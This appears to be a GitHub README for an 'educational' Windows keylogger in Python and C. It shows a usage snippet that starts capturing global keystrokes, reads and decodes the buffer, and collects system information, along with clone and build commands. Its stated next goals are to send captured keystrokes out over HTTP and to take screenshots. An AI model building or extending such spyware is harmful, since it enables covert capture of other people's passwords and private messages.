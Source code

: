 # Keylogger

> ⚠️ **Warning:** This project is intended **for educational purposes only**.
> I am **not responsible** for any misuse of this code. Do **not use** it to capture data from others without permission.

---
<img width="512" height="512" alt="logo" src="https://github.com/user-attachments/assets/ab405688-7c34-477a-a03c-192df375d5e6" />

## Description

This is a simple Python/C example that demonstrates how to:

- Collect basic system information
- Capture global keyboard input
- Decode key presses into readable text

---

## Example Usage

```python
import time
import pcinfo
from keylogger import Keylogger

# Start keylogger
kl = Keylogger()
kl.start()

# Print system info
info = pcinfo.infoPc()
print("System Info:")
print(info)

# Type something...
time.sleep(10)

# Get keylogger buffer and decode to text
codes = kl.get_buffer()
text = "".join(chr(c) for c in codes)
print("Captured Keys:")
print(text)

# Stop keylogger
kl.stop()
del kl
```


## Next Goals
- **External Output:** Explore ways to send captured data to external sources:
  - Save to files
  - Send via HTTP requests
- **Data Analysis:** Process and analyze keystroke data
- **Snapshot:** Capture periodic screenshots for study purposes

## How to Compile and Run (Windows Only)

> ⚠️ **Note:** This project currently supports **Windows only**.
> Make sure you have **Python installed** and **Visual Studio Build Tools** available.

Clone the repository and navigate to the folder:

```bash
git clone https://github.com/jgmen/keylogger-py.git
cd keylogger-py
nmake build
nmake run
